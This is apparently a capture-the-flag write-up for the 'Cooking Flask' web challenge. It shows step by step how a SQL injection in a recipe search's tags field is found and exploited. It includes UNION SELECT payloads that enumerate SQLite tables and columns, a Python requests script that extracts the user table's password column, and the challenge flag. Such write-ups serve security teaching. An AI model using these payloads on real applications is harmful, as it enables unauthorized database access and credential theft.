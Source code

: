 ```yaml
---
ai_date: 2025-05-17 21:38:59
ai_summary: Exploited SQL injection vulnerability to extract 'password' column from 'user' table, retrieving flag
ai_tags:
  - sql
  - union
  - select
created: 2025-05-17T05:17
points: 363
solves: 139
title: Cooking Flask
updated: 2025-05-17T21:53
---
```


This is clearly a SQL challenge.

However name and description are not vulnerable.

So I tried tags, which is indeed vulnerable.

```python
params = {
    "recipe_name": "",
    "description": "",
    "tags": [
        "%' OR 1=1)--
    ]
}
```

We can assume that the server is doing do something like this:

```sql
SELECT * FROM recipe
WHERE recipe_name LIKE '%' || ? || '%'
AND recipe_description LIKE '%' || ? || '%'
AND ( tags LIKE '%Dessert%' OR tags LIKE '%Lunch%');
```

Those column names are guessed via selecting different columns and seeing if the error message changes.

```python
"%' OR (select recipe_id, recipe_name, recipe_description, tags from recipe))-- "
```

And the server is running `sqlite` (by guess and check https://yun.ng/c/sql).

```python
"%') UNION SELECT sqlite_version() -- "
```

```python
"%') UNION SELECT '0','1','2','3','4','5','6','7' FROM sqlite_master WHERE type='table' -- "
```

After a lot of pain, I found the number of columns in the table.

```
pydantic_core._pydantic_core.ValidationError: 2 validation errors for Recipe
date_created
  Datetimes provided to dates should have zero time - e.g. be exact dates [type=date_from_datetime_inexact, input_value='2', input_type=str]
    For further information visit https://errors.pydantic.dev/2.11/v/date_from_datetime_inexact
tags
  Input should be a valid list [type=list_type, input_value=6, input_type=int]
    For further information visit https://errors.pydantic.dev/2.11/v/list_type
```

Luckily the server gives me this very helpful error message.

After fixing the formats I am able to get my query back!

```python
"%') UNION SELECT '0','1','2025-05-17','3','4','5','[]','7' FROM sqlite_master WHERE type='table' -- "
```

## what table? what column?
So where is the flag? What is the table name?

```python
"%') UNION SELECT '0','1','2025-05-17','3',name,'5','[]','7' FROM sqlite_master WHERE type='table' -- "
```

```
login_attempt
login_session
personal_cookbook_entry
recipe
sqlite_sequence
to_try_entry
user
```

I guess it is in user?

```python
"%') UNION SELECT '0','1','2025-05-17','3',name,'5','[]','7' FROM pragma_table_info('user') -- "
```

```
date_joined
first_name
last_name
password
user_email
user_id
username
```

And there it is, `password`

```python
import requests
import re
params = {
    "recipe_name": "",
    "description": "",
    "tags": [
        # "%' OR 1=1)--"
        "%') UNION SELECT '0','1','2025-05-17','3',password,'5','[]','7' FROM user -- "
    ]
}
r = requests.get("https://cooking.chal.cyberjousting.com/search", params=params)
r = r.text

pattern = re.compile(r"<td>(.+)</td>")
for match in pattern.findall(r):
    print(match)

if not pattern.findall(r):
    print(r)
```

```flag
byuctf{pl34s3_p4r4m3t3r1z3_y0ur_1nputs_4nd_h4sh_p4ssw0rds}
```